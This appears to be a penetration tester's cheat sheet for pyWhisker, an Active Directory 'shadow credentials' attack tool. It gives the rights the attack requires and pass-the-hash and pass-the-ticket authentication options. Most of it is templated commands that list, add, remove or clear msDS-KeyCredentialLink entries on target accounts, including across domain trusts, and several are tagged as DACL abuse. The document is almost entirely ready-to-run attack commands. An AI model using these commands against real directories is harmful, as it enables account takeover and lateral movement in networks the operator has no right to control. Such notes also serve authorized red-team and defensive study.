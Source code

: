 # pyWhisker

% dacl, shadow credentials, msDs-KeyCredentialLink, https://github.com/ShutdownRepo/pywhisker
#plateform/linux #target/remote #cat/AD/RECON 


## pyWhisker - Notes
```
To install add pycryptodome to requirements.txt
plus
pip install pyOpenSSL==24.0.0
```

## pyWhisker - Attack requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
DC must have its own certificate and keys (RB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP)
```

## auth - cred
```bash
-u <user> -p <password> 
```

## auth - pth
```bash
-u <user> -H <nt_hash> 
```

## auth - ptt
```bash
-u <user> -k -no-pass 
```

## list all current KeyCredentials ID and creation time (cred)
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -p <password> --target <target_user> --action "list"
```


## list all current KeyCredentials ID and creation time (pth)
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "list"
```

## list all current KeyCredentials ID and creation time (ptt)
```
pywhisker.py -k -no-pass --dc-ip <dc_ip> -d <domain_fqdn> -u <user> --target <target_user> --action "list"
```

## get info on KeyCredential (pth)
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## remove KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## clear KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## add KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <dc_ip> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```


## cross-domain - list all current KeyCredentials ID and creation time (cred) (TRUST)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <dst_domain_fqdn> -d <domain_fqdn> -u <user> -p <password> --target <target_user> --action "list"
```


## cross-domain - list all current KeyCredentials ID and creation time (pth)
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <dst_domain_fqdn> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "list"
```


## cross-domain - get info on KeyCredential (pth)
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <dst_domain_fqdn> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## cross-domain - remove KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <dst_domain_fqdn> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## cross-domain - clear KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <dst_domain_fqdn> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## cross-domain - add KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <dst_domain_fqdn> -d <domain_fqdn> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```

